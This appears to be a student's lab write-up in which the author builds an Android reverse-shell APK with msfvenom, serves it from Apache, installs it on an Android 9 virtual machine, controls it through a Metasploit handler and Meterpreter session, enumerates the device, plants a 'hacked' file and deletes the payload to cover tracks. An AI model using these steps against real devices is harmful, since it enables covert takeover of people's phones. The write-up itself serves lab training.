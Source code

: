 ```yaml
---
title: "Mobile Hacking"
layout: post
---
```

Summary:
  1. Exploit the vulnerabilites in an Android device
  2. Device enumeration and covering tracks

To begin this exercise I launched and logged into the Administrator account of a Windows OS virtual machine.

Following log in, I launched the Microsoft hypervisor application called Hyper-V Manager.

Once Hyper-V launched, I focused my attention to the "Android Pie" virtual machine that appeared and selected connect.

This started an Android 9.0 OS virtual machine. I then viewed the Network & Internet settings which allowed me to find the IP address, Gateway, Subnet Mask, and DNS.

<img width="386" alt="image" src="https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/ee10fb85-104a-4da6-81af-c25676117df5">


To begin the next portion of the exercise, I launched and logged into the root account of Kali Linux virtual machine and launched a new terminal window.

Once the terminal window appeared, I entered the command:

  - systemctl start apache2

This command starts the Apache2 service and with replacing start with status you can confirm that it is running by locating the "Active" field.

Next, by default Apache servers will not allow access to the resources located at /var/www/html. Therefore, I will need to remove the file and create a directory that I can create a payload in to exploit the Android emulator.

I did this by entering the commands:

  - rm /var/www/html/index.html
  - mkdir /var/www/html/lab25

Following this, I began to create my own payload for the android device by entering the command:

  - msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=4444 R > /var/www/html/lab25/android.apk

![image](https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/a53c1baa-ec77-44c6-b776-ad21d45a55ce)



For the next portion of the exercise, I need to access and install the malicious Android APK file saved in the apache server.

From the Android VM, I launched a Google Chrome browser and entered the IP address of the Linux machine in the address bar.

At this point, I located the folder "lab25" and downloaded the "android.apk" file, and allowed Chrome to access photos, media, and files on the device.

After ignoring the warnings from Google Chrome, I opened the file to begin installing.

After the application is done installed, I clicked the open option that appeared from the App Installed Message.

Now that the application is successfully installed on the Android device, I switched back to the Kali Linux VM and in a terminal window entered the command:

  - sudo msfconsole

to launch metasploit.

Once inside metasploit, I entered the command:

  - use exploit/multi/handler

Followed by the command:

  - set payload android/meterpreter/reverse_tcp

I then set the LHOST with the command:

  - set LHOST 192.168.0.2

and began exploiting the device by running the command:

  - exploit -j -z

This command tells the exploit to run the job and do not interact with the session after the connection is made.

Once the session is created between the two devices, I entered the command:

  - session -i 1

Which means interact with the supplied session ID, in this scenario it is 1. This also launched the Meterpreter shell, which means I have successfully accessed and exploited the Android emulator.

To go further, I attempted to learn more information about the target such as the network interfaces, and system information.

To begin I entered the commands:

  - sysinfo / This revealed that the computer is localhost, the OS is Android 9 - Linux 4.19.110-android-x86_64, and Meterpreter is dalvik/android
  - ifconfig / This revealed the Interfaces. In Interface 1, I was able to determine the Name, Hardware MAC, IPv4 Address, IPv4 Netmask, IPv6 Address, and IPv6 Netmask.
  - app_list / This revealed a list of apps. I found that AnalyticsService, Android Easter Egg, Android Keyboard, Android Services Library, and Android Setup were all running, along with their package information.
  - check_root / The helped me identify that the device is rooted.

I then began to upload a file as proof that I accessed and exploited the device. I began by created a empty txt file, named it README.txt, and entered "YOU HAVE BEEN HACKED!!" in the file.

I then uploaded the file by entering the command:

  - upload -r /root/Desktop/README.txt /storage/emulated/0/Android/data

Then by switching back to the Android emulator and navigating to the internal storage. I was able to view the file and begin covering my tracks.

To cover my tracks, I switched back to the Kali Linux VM and removed the android.apk malicious file with the command:

  - rm android.apk


